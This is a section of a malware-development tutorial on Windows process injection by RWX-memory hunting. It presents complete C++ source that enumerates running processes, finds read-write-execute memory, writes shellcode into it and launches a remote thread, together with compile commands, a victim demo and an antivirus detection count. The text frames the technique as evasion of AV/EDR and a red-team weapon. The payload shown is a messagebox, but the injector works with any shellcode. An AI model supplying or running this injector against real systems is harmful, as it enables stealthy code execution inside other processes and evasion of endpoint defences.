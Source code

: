 \newpage
\subsection{28. process injection via RWX-memory hunting. Simple C++ example.}

﷽

![injection](./images/38/2022-02-02_15-59.png){width="80%"}    

This is a self-researching of another process injection technique.   

### RWX-memory hunting    

Let's take a look at logic of our [classic](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html) code injection malware:    
```cpp
//...
// allocate memory buffer for remote process
rb = VirtualAllocEx(ph, NULL, my_payload_len, 
(MEM_RESERVE | MEM_COMMIT), 
PAGE_EXECUTE_READWRITE);

// "copy" data between processes
WriteProcessMemory(ph, rb, my_payload, 
sizeof(my_payload), NULL);

// our process start new thread
rt = CreateRemoteThread(ph, NULL, 0, 
(LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
//...
```

As you remember, we use `VirtualAllocEx` which is allows to us to allocate memory buffer for remote process, then, `WriteProcessMemory` allows you to copy data between processes. And `CreateRemoteThread` you can specify which process should start the new thread.    

What about another way? it is possible to enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help to evasion some AV/EDR.     

### practical example

The flow is this technique is simple, let's go to investigate its logic:   

Loop through all the processes on the system:    

![injection 2](./images/38/2022-02-02_18-33.png){width="80%"}   

Loop through all allocated memory blocks in each process:

![injection 3](./images/38/2022-02-02_18-35.png){width="80%"}   

Then, we check for memory block that is protected with `RWX`:    

![injection 4](./images/38/2022-02-02_18-36.png){width="80%"}   

if ok, print our memory block (* for demonstration *):    

![injection 5](./images/38/2022-02-02_18-38.png){width="80%"}   

write our payload to this memory block:    

![injection 6](./images/38/2022-02-02_18-39.png){width="80%"}   

then start a new remote thread:    

![injection 7](./images/38/2022-02-02_18-44.png){width="80%"}   

Full C++ source code of our malware is:    

```cpp
/*
hack.cpp
process injection technique via 
RWX memory hunting
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/02/01/malware-injection-16.html
*/
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  MEMORY_BASIC_INFORMATION m;
  PROCESSENTRY32 pe;
  LPVOID address = 0;
  HANDLE ph;
  HANDLE hSnapshot;
  BOOL hResult;
  pe.dwSize = sizeof(PROCESSENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return -1;

  hResult = Process32First(hSnapshot, &pe);

  while (hResult) {
    ph = OpenProcess(MAXIMUM_ALLOWED, false, pe.th32ProcessID);
    if (ph) {
      printf("hunting in %s\n", pe.szExeFile);
      while (VirtualQueryEx(ph, address, &m, sizeof(m))) {
        address = (LPVOID)(
        (DWORD_PTR)m.BaseAddress + m.RegionSize);
        if (m.AllocationProtect == PAGE_EXECUTE_READWRITE) {
          printf("rwx memory successfully found at 0x%x :)\n", 
          m.BaseAddress);
          WriteProcessMemory(ph, m.BaseAddress, 
          my_payload, sizeof(my_payload), NULL);
          CreateRemoteThread(ph, NULL, NULL, 
          (LPTHREAD_START_ROUTINE)m.BaseAddress, 
          NULL, NULL, NULL);
          break;
        }
      }
      address = 0;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }
  CloseHandle(hSnapshot);
  CloseHandle(ph);
  return 0;
}

```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let’s go to see everything in action. Compile our practical example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection 8](./images/38/2022-02-02_16-10.png){width="80%"}   

Then run it! In our case victim machine is `Windows 10 x64`:    

![injection 9](./images/38/2022-02-02_16-10_1.png){width="80%"}  

As you can see, everything is worked perfectly! :)    

Let's go to check one of our victim process, for example `OneDrive`:    

![injection 10](./images/38/2022-02-02_18-59.png){width="80%"}  

![injection 11](./images/38/2022-02-02_16-09.png){width="80%"}  

> There is a one caveat. The provided below code is a dirty proof-of-concept and may crash certain processes. For example, in my case `SearchUI.exe` is crashet and not worked after run my example.    

Then, upload our malware to VirusTotal:    

![vt](./images/38/2022-02-02_19-44.png){width="80%"}    

[https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection](https://www.virustotal.com/gui/file/5835847d11b7f891e70681e2ec3a1e22013fa3ffe31a36429e7814a3be40bd97/detection)    

**So, 7 of 69 AV engines detect our file as malicious.**    

`Moneta64.exe` result:

![moneta](./images/38/2022-02-02_19-49.png){width="80%"}    

The reason why it's good to have this technique in your arsenal is because it does not require you to allocate new `RWX` memory to copy your payload over to by using `VirtualAllocEx` which is more popular and suspicious and which is more closely investigated by the blue teamers.

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[VirtualQueryEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex)    
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)    
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)    
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)    
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[Taking a snapshot and viewing processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)    
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)    
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)    
[Hunting memory](https://www.elastic.co/blog/hunting-memory)    
[Moneta64.exe](https://github.com/forrest-orr/moneta)    
[source code in Github](https://github.com/cocomelonc/2022-02-01-malware-injection-16)    
